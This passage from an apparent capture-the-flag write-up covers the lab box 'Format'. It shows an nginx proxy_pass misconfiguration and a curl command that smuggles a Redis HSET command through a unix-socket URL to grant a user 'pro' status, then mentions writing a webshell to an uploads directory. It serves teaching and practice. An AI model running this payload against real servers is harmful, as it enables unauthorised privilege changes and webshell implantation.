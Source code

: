 ```
        }

        location = /static/js/health/ {
            resolver 127.0.0.1; proxy_pass 
            http://js.microbucket.htb/health.txt;
        }

        location ~ /static/(.*)/(.*) {
            resolver 127.0.0.1; 
            proxy_pass http://$1.microbucket.htb/$2;
        }
}
```

There is a misconfiguration at this part:

```
        location ~ /static/(.*)/(.*) {
            resolver 127.0.0.1; 
            proxy_pass http://$1.microbucket.htb/$2;
        }
```

The `proxy_pass` feature in Nginx supports proxying requests to local unix sockets. Surprisingly, the URI passed to proxy_pass can be either `http://` or a UNIX-domain socket path specified after the word unix and enclosed in colons. With this feature, we can change the user `pro` field to `true` by sending `HSET` method to `http://microblog.htb/static/unix:/var/run/redis/redis.sock:<username>%20pro%20true%20/`

```
❯ curl -X "HSET" 'http://microblog.htb/static/unix:/var/run/redis/redis.sock:gh0st%20pro%20true%20/'
<html>
<head><title>502 Bad Gateway</title></head>
<body>
<center><h1>502 Bad Gateway</h1></center>
<hr><center>nginx/1.18.0</center>
</body>
</html>
```

We should not be bothered by the response, if we check the blog again, the current user should have `pro` access.

![pro_user](/assets/img/HTB/Evidence/Format/pro_user.png)

With the `pro` access, we can write a webshell to the `/var/www/microblog/<blogname>/uploads/` directory because it's writable for the `pro` user.

